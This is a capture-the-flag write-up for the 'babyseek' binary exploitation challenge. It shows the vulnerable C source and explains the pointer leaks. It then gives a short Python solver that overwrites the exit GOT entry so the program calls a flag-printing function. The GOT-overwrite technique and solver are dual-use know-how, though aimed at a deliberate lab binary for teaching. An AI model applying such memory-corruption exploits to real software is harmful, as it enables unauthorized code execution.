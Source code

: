 # babyseek (Binary Exploitation)
> I'll let you seek around my file as far as you want, but you can't go anywhere since it's /dev/null.

This is a slightly-more-than-baby baby pwn challenge. The binary is compiled with RELRO turned off because it's small enough that it gets full RELRO by default. It has other default protections enabled.

The whole challenge looks like so:
```c
void win() {
    system("cat /flag"); // Prints flag
}

int main(int argc, char *argv[]) {
    // This is just setup
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    // Print location to `win` function
    printf("Your flag is located around %p.\n", win);

    // Open `/dev/null`
    FILE* null = fopen("/dev/null", "w");
    int pos = 0;
    void* super_special = &win; // now a pointer to win

    fwrite("void", 1, 4, null); // Trigger the allocation of a buffer for writing to
    printf("I'm currently at %p.\n", null->_IO_write_ptr); // Print location of buffer
    printf("I'll let you write the flag into nowhere!\n");
    printf("Where should I seek into? ");
    scanf("%d", &pos);
    null->_IO_write_ptr += pos; // Change buffer pointer

    fwrite(&super_special, sizeof(void*), 1, null); // Write `win` location
    exit(0);
}
```

The challenge leaks the pointer to a `win` function which prints the flag...
```c
    printf("Your flag is located around %p.\n", win);
```
...and a pointer claiming to be into `/dev/null`.
```c
    printf("I'm currently at %p.\n", null->_IO_write_ptr);
```
The second pointer is a really pointer that points to the `_IO_write_ptr` member of a `FILE` object. This pointer actually controllers where writing to the file will attempt to write to in memory. Normally, this is a buffer holding the data to write to the file that gets flushed occasionally, which is allocated on the heap.

It takes an offset, adds it to the `_IO_write_ptr`, and then tries to write the address of the win() function to that offset, and then exit()s.
```c
    printf("Where should I seek into? ");
    scanf("%d", &pos);
    null->_IO_write_ptr += pos;

    fwrite(&super_special, sizeof(void*), 1, null); // super_special is a pointer to win
    exit(0);
```

We can exploit this program by changing the place where the pointer lands to an area of memory where a function pointer lands. One such place is the [Global Offset Table (GOT)](url), which is at a constant offset from the win function! If we set the pointer so it overwrites an useful member of the GOT, we can have the program call the win function. One easy target is `exit`, which is called write after.

We can just compute the constant offset from win to `exit@.got.plt` using gdb and then send an appropriate offset based on the two leaks.
```py
off = 8767
r.recvuntil(b"Your flag is located around ")
flag = eval(r.recvuntil(b".", drop=True).decode())
r.recvuntil(b"I'm currently at ")
loc = eval(r.recvuntil(b".", drop=True).decode())
send = flag - loc + off
r.sendline(str(send).encode())
```

```
irisctf{not_quite_fseek}
```
